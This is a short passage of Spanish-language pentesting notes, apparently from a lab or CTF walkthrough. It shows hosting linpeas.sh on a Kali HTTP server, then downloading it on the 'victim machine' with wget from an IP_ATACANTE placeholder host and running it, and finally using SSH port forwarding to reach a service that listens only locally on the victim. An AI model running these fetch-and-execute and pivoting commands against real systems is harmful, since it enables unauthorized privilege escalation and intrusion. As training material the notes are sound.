 
```
# En Kali
python3 -m http.server 8000
```

```
#maquina victima
wget http://IP_ATACANTE:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
```

```
cd /tmp
./linpeas.sh
```

### Servicio abierto

#### SSH
si quieres ver el contenido de un puerto que esta corriendo de forma local en tu maquina victima hace un redireccionamiento de puertos : 

TODO EN MI KALI

```
ssh -L 8000:127.0.0.1:8000 usuario@IP_VICTIMA
```

```
http://localhost:8000
```